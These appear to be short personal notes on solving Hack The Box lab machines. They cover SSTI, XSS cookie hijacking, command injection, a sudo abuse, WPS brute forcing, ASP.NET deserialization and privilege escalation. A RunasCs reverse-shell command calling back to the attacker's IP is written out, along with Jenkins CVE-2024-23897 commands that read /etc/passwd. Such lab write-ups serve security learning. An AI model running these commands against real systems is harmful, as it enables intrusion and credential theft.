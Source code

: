 # HTB-Perfection
- Linux
- My writeup available on medium.
- SSTI to RCE.
- Hash Cracking using a hint from the `mail`.

# HTB-Headless
- Linux
- Stored XSS in User Agent field and leveraged it for admin cookie hijacking.
- Command Injection on the dashboard in the admin session.
- sudo permission on `syscheck` script that was misconfigured to look for a `initdb.sh` file in the current working directory. So, made the same named reverseshell script, gave execute permission and again ran the `syscheck` script with sudo permissions.

# HTB-WifineticTwo
- Linux
- Got default credentials `openplc:openplc` and used the below script. This below script had only one change compared to the original OpenPLC exploit PoC where we need to specify one of the `.st` files that already exists on the server like `blank_program.st`.
Refer: https://github.com/Hunt3r0x/CVE-2021-31630-HTB/blob/main/exploit.py
- Now did some wifi pentesting and found one wifi network with WPS enabled. So, bruteforced WPS code(PixieDustAttack), got the credentials and connected.
- Now connected but didn't get any IP assigned, so did manually and finally performed a ping sweep to locate more hosts on the same wifi network. And finally did an ssh without any credentials.

# HTB-PoV
- Windows
- Refer: https://techyrick.com/pov-hackthebox-writeup/
- Got to learn about the `web.config` file that contains some decryption sensitive keys.
- ASP.NET Deserialization.(Refer the Obsidian HTB-PoV notes to get the serialized payload)
Refer: https://soroush.me/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/
- Learnt about saved password extraction using `GetNetworkCredential().Password`.
Refer: https://adamtheautomator.com/powershell-get-credential/
- Learnt about the `RunasCs.exe` executable to get a reverseshell once we have credentials.
`.\RunasCs.exe _user_ _pass_ cmd.exe -r _tun0IP_:_PORT_` => **Note:** We were able to escalate our privileges using this only. By manually connecting using `Invoke-Command` we were unable to do so.
- Finally had `SeDebugPrivilege`. So, enabled with `psgetsys.ps1` and `EnableAllTokenPrivs.ps1` scripts.
- Now used this privilege to create a metasploit payload and finally migrated to NT Authority-System processes like `lsass.exe` using the meterpreter shell.

# HTB-Builder
- Linux
- My writeup available on medium.
- Jenkins System file read. (CVE-2024-23897)
Link: https://blog.securelayer7.net/arbitrary-file-read-in-jenkins/
>- `wget http://<target_ip>:8080/jnlpJars/jenkins-cli.jar` => Download jar file.
>- `java -jar jenkins-cli.jar -s http://<target_ip>:8080/ connect-node @/etc/passwd` => Read system files.
- Environment variables file to locate the webroot location.
`/proc/self/environ`
- Learnt to perform **jenkins decryption** using the Groovy command. Refer https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml
